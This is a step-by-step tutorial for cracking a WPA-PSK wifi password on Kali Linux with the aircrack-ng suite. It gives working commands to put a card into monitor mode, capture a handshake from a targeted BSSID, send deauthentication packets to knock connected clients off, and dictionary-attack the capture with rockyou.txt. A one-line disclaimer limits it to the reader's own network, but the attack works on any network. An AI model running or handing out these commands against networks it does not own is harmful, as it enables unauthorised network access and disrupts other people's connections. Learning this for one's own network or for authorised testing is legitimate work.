 Boot / Install Kali

If on virtualbox, you will need a USB wifi stick. Once added, click the usb icon in the bottom right and add the device to your guest OS
![](http://teachthe.net/topclipbox/2016-05-03_22-29-253QLRLY.png)

```shell
airmon-ng
```

You should see something like this
![](http://teachthe.net/topclipbox/2016-05-03_22-31-4102HNZ4.png)

From the above, get your Interface name and use it below in place of 'wlan0'

```
airmon-ng start wlan0
```

This should tell us monitor mode is enabled for this interface.

```
airodump-ng wlan0
```

This will show us all wifi points detected by the card, along with their encryption type. It should look like this:

![](http://teachthe.net/topclipbox/2016-05-03_23-47-24LP16AR.png)

Once you see your network, hit control+c to kill it.

(Note, this guide only shows how to break into your own WPA-PSK protected network)

```
airodump-ng -c 1 --bssid 04:1E:64:98:96:AB -w ~/wpa-psk wlan0 --output-format cap
```

For this command, we need to make a few modifications:

1) "-c 1" is specifying to use channel 1. Replace the "1" with the number from the CH column above for your network.

2) "--bssid 04:1E:64:98:96:AB" is specifying the unique ID of the actual wifi network you are targeting. Replace the "04:1E:64:98:96:AB" with the value from the BSSID column above for your network.

3) As always, replace wlan0 with your Interface name.

While leaving it running, open another terminal.

In the new terminal:

Unzip this password list if you haven't before:
```
gzip -d /usr/share/wordlists/rockyou.txt.gz
```

Then we're going to work with this command to crack the password
```
aircrack-ng ~/wpa-psk-01.cap -w /usr/share/wordlists/rockyou.txt
```
For this command, we need to make a modification: "~/wpa-psk-01.cap" is referring to the file storing the results of the dump from the previous command. In the previous command, we passed in a parameter "-w ~/wpa-psk" saying write the logs to our home directory. Go to your home directory, and find the .cap file located there, and replace the "wpa-psk-01.cap" in this command with the name of that file.

If you get a "failed" message. Just hit control+c and wait for more data to be collected, then try again.

Alternatively, if you got the message 'No valid WPA handshakes found.', you could try to force the remote clients to disconnect so they have to re-authenticate. This is the command to do so:

```
aireplay-ng -0 1 -a 04:1E:64:98:96:AB  wlan0
```
Where you replace the BSSID ("04:1E:64:98:96:AB") and the interface ("wlan0") with your own.

When you achieve success, you should see something like this!

![](http://teachthe.net/topclipbox/2016-05-03_23-58-481DRT8X.png)
